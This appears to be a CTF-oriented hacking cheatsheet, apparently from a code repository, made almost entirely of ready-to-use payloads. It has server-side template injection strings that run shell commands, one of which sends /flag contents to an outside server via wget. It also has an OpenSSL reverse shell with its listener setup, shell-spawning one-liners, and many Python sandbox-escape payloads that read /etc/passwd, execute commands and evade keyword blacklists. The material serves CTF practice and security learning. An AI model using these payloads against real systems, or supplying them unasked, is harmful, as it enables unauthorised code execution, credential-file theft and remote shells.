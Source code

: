 # Bash And CTF Cheatsheet

## Server Side Template Injection
```
{{()}}
{{''}}
{{ globals }}
{{ dict }}
{{ range }}
{{ self.__dict__ }}
{{ get_flashed_message.__globals__ }}

list(list(''.__reduce__(42).__getitem__(0).__globals__.values()).__getitem__(1).
values()).__getitem__(125)("/flag").read() # maybe tornado
dict(b=globals).get('b')().pop('__buil''tins__').pop('op''en')('/flag').read() # maybe tornado
globals().__getitem__('__bui''ltins__').__getitem__('op''en')('/flag').read() # maybe tornado
## source : https://spyclub.tech/2018/inctf2018-web-challenge-writeup/

bash
{{ ().__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].__dict__["os"].system('cat flag.txt') }}

# Tornado : https://ctftime.org/writeup/11519
{{globals.__self__.exec("imp"+"ort o"+"s;o"+"s.system('cat /flag|xa"+"rgs wget http://my_server 80 --user-agent')")}}

# Has a very high success rate : 
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40](\"/tmp/flag\").read() }}
source : https://twitter.com/LooseSecurity/status/1115397520727973894

```


## Bash Hack

### Bashfuck
Executing command without using alphanum characters

[BasFuck](https://github.com/trichimtrich/bashfuck)

### Socat

```bash
socat -d -d -d TCP4-LISTEN:1337,reuseaddr,fork EXEC:"python pwn.py" > /dev/null 2>&1 &
```

### Shellcode Extractor

```bash
objdump -d ./orww|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
Source : [http://www.ilmuhacking.com/exploit/belajar-membuat-shellcode-part-1/](http://www.ilmuhacking.com/exploit/belajar-membuat-shellcode-part-1/) 

### Reverse SSL shell openssl - @ThemsonMester

Before the listener can be started, a key pair and a certificate must be generated.

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

#### Listener
```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```

#### Shell
```bash
mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <HOST>:<PORT> > /tmp/s; rm /tmp/s
```
Source : [https://medium.com/@honze_net/reverse-shell-and-some-magic-39629ccd0e5c](https://medium.com/@honze_net/reverse-shell-and-some-magic-39629ccd0e5c)

### Spawn("/bin/bash") if no python installed

No python installed for the 'pty.spawn("/bin/bash")' trick? Can use expect or script as well :D

#### Script
```bash
SHELL=/bin/bash script -q /dev/null
```

#### expect
```bash
expect -c 'spawn bash; interact'
```
Source : [https://twitter.com/ropnop/status/884928178048860160](https://twitter.com/ropnop/status/884928178048860160)


### awk
```bash
awk 'BEGIN {system("/bin/bash")}'
```

## Python eval payload

i
```python
print('THIS IS A PYTHON EVAL INTERPRETED OUTPUT')
exit()
sum(xrange(-999999999,99999999))
 
file('/etc/passwd').read()
open('/etc/passwd').read()
__import__['fileinput'].input('/etc/passwd')
__import__['os'].system('cat /etc/passwd')
__import__['os'].popen('/etc/passwd', 'r').read()
__import__['os'].system('cd /; python -m SimpleHTTPServer')
 
print(file('/etc/passwd').read())
print(open('/etc/passwd').read())
print(__import__['fileinput'].input('/etc/passwd'))
print(__import__['os'].system('cat /etc/passwd'))
print(__import__['os'].popen('/etc/passwd', 'r').read())
print(__import__['os'].system('cd /; python -m SimpleHTTPServer'))
 
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']('THIS IS A PYTHON EVAL INTERPRETED OUTPUT')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['exit']()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['sum']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['xrange'](-999999999,99999999))
 
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['file']('/etc/passwd').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('/etc/passwd').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('fileinput').input('/etc/passwd')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cat /etc/passwd')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').popen('/etc/passwd', 'r').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cd /; python -m SimpleHTTPServer')
 
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['file']('/etc/passwd').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('/etc/passwd').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('fileinput').input('/etc/passwd'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cat /etc/passwd'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').popen('/etc/passwd', 'r').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cd /; python -m SimpleHTTPServer'))

# If system or popen or __import__ is blacklisted

[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__[chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)]('pty).spawn('sh')

[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__[chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)]('subprocess').check_output('ls')

## https://github.com/flawwan/CTF-Writeups/blob/master/inCTF2018/secure-file-uploader.md
getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]('flag').read()
```
source : [https://www.floyd.ch/?p=584](https://www.floyd.ch/?p=584) 

## DeObfucaste Marshal @DwiMulia

```
from sys import stdout
from uncompyle6.main import decompile
import marshal

x = marshal.loads("<REDACTED BYTECODE>")
decompile(2.7, x, stdout) 
```